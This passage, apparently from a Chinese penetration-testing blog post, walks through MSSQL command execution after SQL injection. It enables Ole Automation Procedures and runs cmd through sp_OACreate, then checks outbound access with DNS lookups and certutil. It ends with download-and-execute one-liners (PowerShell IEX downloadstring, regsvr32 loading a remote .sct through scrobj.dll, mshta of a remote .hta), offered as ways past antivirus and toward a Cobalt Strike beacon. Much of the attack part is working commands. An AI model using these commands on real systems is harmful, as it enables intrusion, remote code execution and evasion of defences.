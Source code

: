 
通过启用xp_cmdshell失败，sqlmap还会尝试`sp_OACreate`，`sp_OACreate`这个方式是不带回显的，通常利用语句如下：


```
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'show advanced options', 0;
```

执行：

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-07-02.png)

通过调用`sp_oacreate`能够获得一个数字返回值，若全是0，则执行失败，必须有1。

## 判断网络环境

能执行命令后，为了判断能否出网，先尝试DNS Log。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-08-54.png)


![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-09-18.png)

在`os-shell`中，执行：`nslookup xxxxx.net`，burp看回显即可。

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-14-11-13.png)

DNS能出，接下来看TCP报文...

这里我使用`certutil`、`bitsadmin`命令来测试，但是么有截图...

```
$ python3 -m http.server
```

```
os-shell>certutil -urlcache -split -f http://xxx:8000/
```

收到相应的请求后，基本上稳妥了，可以采用`reverse_tcp`的方案，用powershell反弹一个beacon到cobalt strike上。

## Regsvr32妙用

测试的过程中，并不顺利，后来我发现它有反病毒软件...

尝试了以下方法：

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/a22'))"

regsvr32 /s /n /u /i:http://x.x.0.x:8080/zfgJrh6V.sct scrobj.dll

mshta http://xxx.xx.xx.xx/1.hta
```

